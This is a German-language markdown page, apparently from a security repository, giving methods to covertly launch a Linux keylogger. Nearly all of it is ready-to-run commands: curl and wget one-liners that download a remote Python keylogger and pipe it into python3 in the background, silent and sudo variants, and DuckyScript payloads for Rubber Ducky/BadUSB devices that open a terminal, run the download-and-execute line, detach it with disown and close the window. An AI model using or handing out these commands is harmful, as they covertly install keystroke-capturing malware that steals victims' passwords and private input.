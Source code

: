 # Linux Auto-Execution Commands für Keylogger

## 🎯 Verschiedene Ausführungsmethoden

### 1. **One-Liner (Einfachste Methode)**
```bash
curl -s https://raw.githubusercontent.com/LucasWindmueller/InfoSicherheit/main/src/logger_linux.py | python3 &
```

### 2. **Mit wget (falls curl nicht verfügbar)**
```bash
wget -qO- https://raw.githubusercontent.com/LucasWindmueller/InfoSicherheit/main/src/logger_linux.py | python3 &
```

### 3. **Mit Abhängigkeiten-Installation**
```bash
pip3 install --user pynput requests 2>/dev/null; curl -s https://raw.githubusercontent.com/LucasWindmueller/InfoSicherheit/main/src/logger_linux.py | python3 &
```

### 4. **Silent & Hidden (keine Ausgabe)**
```bash
(curl -s https://raw.githubusercontent.com/LucasWindmueller/InfoSicherheit/main/src/logger_linux.py | python3 &) >/dev/null 2>&1
```

### 5. **Mit Download in /tmp**
```bash
curl -s -o /tmp/kl.py https://raw.githubusercontent.com/LucasWindmueller/InfoSicherheit/main/src/logger_linux.py && python3 /tmp/kl.py &
```

---

## 🦆 Für Rubber Ducky / BadUSB

### DuckyScript Beispiel:
```
REM === Linux Keylogger Auto-Execute ===
DELAY 1000
GUI
DELAY 500
STRING terminal
DELAY 500
ENTER
DELAY 1000
STRING curl -s https://raw.githubusercontent.com/LucasWindmueller/InfoSicherheit/main/src/logger_linux.py | python3 &
ENTER
DELAY 500
STRING exit
ENTER
```

### Alternative mit CTRL+ALT+T (Ubuntu Standard):
```
REM === Schnellerer Linux-Angriff ===
DELAY 1000
CTRL ALT t
DELAY 1000
STRING curl -s https://raw.githubusercontent.com/LucasWindmueller/InfoSicherheit/main/src/logger_linux.py | python3 & disown
ENTER
DELAY 200
STRING exit
ENTER
```

---

## 📋 Terminal-Befehle für manuelle Tests

### Normale Ausführung:
```bash
bash run_logger_linux.sh
```

### Im Hintergrund:
```bash
nohup bash run_logger_linux.sh &
```

### Mit sudo (für systemweite Tasteneingaben):
```bash
sudo python3 <(curl -s https://raw.githubusercontent.com/LucasWindmueller/InfoSicherheit/main/src/logger_linux.py) &
```

---

## ⚠️ Wichtige Hinweise

- **pynput muss installiert sein**: `pip3 install pynput requests`
- **Wayland vs X11**: Unter Wayland könnte `sudo` erforderlich sein
- **Prozess im Hintergrund**: `&` am Ende startet im Hintergrund
- **disown**: Verhindert, dass Prozess beim Terminal-Schließen beendet wird

---

## 🔧 Troubleshooting

### Falls Python3 fehlt:
```bash
sudo apt update && sudo apt install python3 python3-pip -y
```

### Falls pynput-Installation fehlschlägt:
```bash
sudo apt install python3-pip python3-dev -y
pip3 install --user pynput requests
```

### Prozess finden und beenden:
```bash
ps aux | grep logger_linux.py
kill <PID>
```

